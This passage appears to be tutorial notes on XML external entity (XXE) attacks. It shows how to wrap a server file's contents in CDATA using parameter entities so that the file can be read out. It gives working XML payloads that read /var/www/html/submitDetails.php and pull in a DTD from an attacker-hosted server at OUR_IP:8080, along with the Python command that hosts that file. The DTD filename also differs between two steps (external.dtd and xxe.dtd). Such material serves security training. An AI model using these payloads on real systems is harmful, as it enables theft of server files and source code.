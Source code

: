 In the event that basic XXE won't work or when we are dealing with other web development frameworks, we can utilize the following method to extract any kind of data (including binary data) for any web application backend.

To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

To start, we must first define a `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`, and then place our external entity file in between, and it should be considered as a `CDATA` element, as follows:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
After that, if we reference the &joined; entity, it should contain our escaped data. However, there will be times that this will not work, since XML prevents joining internal and external entities, so we will have to find a better way to do so.

To bypass this, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD. What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined. First create a DTD file named `external.dtd` using the following value:
```dtd
<!ENTITY joined "%begin;%file;%end;">
```
Then start a local server to host the file using Python.
```bash
python3 -m http.server 8080
```

Now we can reference our external entity and print the `&joined` entity we defined above.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8080/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```